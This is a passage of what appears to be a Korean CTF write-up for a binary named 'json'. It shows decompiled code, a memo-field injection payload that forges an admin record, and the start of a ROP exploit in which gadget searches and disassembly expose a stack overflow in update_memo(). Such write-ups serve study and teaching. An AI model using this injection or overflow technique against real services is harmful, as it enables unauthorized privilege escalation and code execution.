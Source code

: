 ## 0x01. Vulnerability
``` c
void __fastcall create_user(__int64 json)
{
  ...
  stream = fopen(USER_FILE, "ab");
  ...
  extract(json, "user", user, 16);
  extract(json, "pass", pass, 16);
  extract(json, "memo", memo, 256);
  if ( *(_BYTE *)user && *(_BYTE *)pass && *(_BYTE *)memo )
  {
    fwrite("[", 1uLL, 1uLL, stream);
    fwrite("2", 1uLL, 1uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(user, 1uLL, 0x10uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(pass, 1uLL, 0x10uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(memo, 1uLL, 0x100uLL, stream);
    fwrite("]\n", 1uLL, 2uLL, stream);
  }
  ...
}
```
`create_user()`에서 `USER_FILE`에 사용자를 추가할 수 있는데 `type`이 `'2'`가 되게끔 하드코딩 되어있다.

하지만 `memo`에 대한 검증이 없어 다음과 같이 injection이 가능하다.
- `memo` : `AAAA]\n[1|admin|admin|admin memo`

``` text
[2|guest|guest|guest memo]
[2|AAAA|AAAA|AAAA]
[1|admin|admin|admin memo]
```

이후 `admin/admin`으로 `create_session()`을 호출하면 `type`이 `'1'`인 세션이 생성된다.

## 0x02. Exploit
이제 ROP만 수행하면 되겠다 싶었는데 애석하게도 인자를 설정할 가젯이 하나도 없었다.
``` bash
➜  ROPgadget --binary=json | grep rdi
0x0000000000401406 : or dword ptr [rdi + 0x405108], edi ; jmp rax
0x0000000000401c76 : ror byte ptr [rdi], 0x85 ; retf
```
처음에는 `update_memo()`의 `strncpy` 종료 시점의 레지스터를 이용하려고 했으나, `session->memo`의 끝 부분을 가리키고 있어 `/bin/sh` 등의 인자를 넣어주는 것이 불가능해보였다.

`system` PLT가 괜히 있는 것은 아닐거라고 생각해서 `update_memo()`를 assembly로 살펴보았다.
``` text
.text:0000000000402140  endbr64
.text:0000000000402144  push    rbp
.text:0000000000402145  mov     rbp, rsp
.text:0000000000402148  sub     rsp, 10h
.text:000000000040214C  lea     rax, [rbp+buf]
.text:0000000000402150  mov     edx, 100h       ; nbytes
.text:0000000000402155  mov     rsi, rax        ; buf
.text:0000000000402158  mov     edi, 0          ; fd
.text:000000000040215D  call    _read
.text:0000000000402162  mov     rax, cs:session
.text:0000000000402169  mov     rax, [rax+20h]
.text:000000000040216D  lea     rcx, [rbp+buf]
.text:0000000000402171  mov     edx, 100h       ; n
.text:0000000000402176  mov     rsi, rcx        ; src
.text:0000000000402179  mov     rdi, rax        ; dest
```